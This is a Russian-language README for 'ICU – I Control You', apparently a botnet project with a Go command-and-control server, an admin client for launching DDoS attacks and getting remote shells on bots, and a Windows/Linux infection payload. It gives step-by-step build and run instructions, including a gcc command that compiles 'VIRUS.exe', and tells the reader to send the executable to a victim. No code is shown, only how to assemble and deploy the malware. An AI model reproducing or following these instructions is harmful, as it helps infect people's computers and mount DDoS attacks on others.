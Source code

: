 # `ICU` I Control You

# Документация разработчиков (Русская версия)

## Основнные папки (их использование)

-   server - Папка `server` предназначена для разработки и запуска самого сервера(Golang) к которому будут стучаться боты(ПК). Сервер принимает пакеты от админ части и от ботов(ПК) а также отправляет соответствующие пакеты.
-   admin - Папка `admin` админ части(C), отправка пакет начало DDoS атаки, контролирование ботов(ПК), получение отчетов, проведение тестирования на активности и получение удаленного доступа к терминалу бота.
-   .sys - Папка `.sys` написанная(C) компилируется в .exe файлы которые нужны отправляет потенциальным пользователем для заражения. (Windows/Linux)

## Скачивания на свой ПК

1. Сделайте fork или clone репозиторий с ветки (main или последней версии)

## Запуск сервера (Golang)

1. Для запуска сервера перейдите к директории `cd server`.
2. Установите Golang язык на свой компьютер например с сайта (- v1.23.0) - https://go.dev/doc/install
3. Создайте файл .env с переменными указаными в .env.example
4. После чего запустите сервера напрмимер `make run` или `go run main.go`

## Запуск клиента admin (C)

1. Для запуска клиента admin перейдите к директории `cd admin/source`.
2. Запустите уже готовый exe файл!

## Запуск клиента бота (C)

`cd sys/windows` - Основная директория САМОГО ВИРУСА - отправьте файл exe в `cd sys/windows/source` жертве!

1. Для получения бота перейдите к директории `cd sys/windows`.

### Если вы на windows

1. Скачайте gcc компилятор - [Ссылка установки](https://programforyou.ru/poleznoe/kak-ustanovit-gcc-dlya-windows?ysclid=ma6mecgzgl891843266)
2. Установите make - [Ссылка установки](https://www.gnu.org/software/make/#download) -  после чего выполните `make exe`
   2.1. Или запустите в терминале:

```bash
gcc x86_x64.c -o "source/VIRUS.exe" stdlib/ICU_log.c core/ICU_bot.c stdlib/ICU_ipgeo.c stdlib/ICU_env.c stdlib/crc.c stdlib/ICU_packet.c stdlib/ICU_dos.c process/windowsprocess.c process/recyclebinprocess.c process/dirprocess.c -mwindows -lws2_32 -lwinhttp -liphlpapi -lshell32 -lole32 -luuid
```

2. После чего перейдите в `cd sys/windows/windows`, готово! вы найдете файл exe
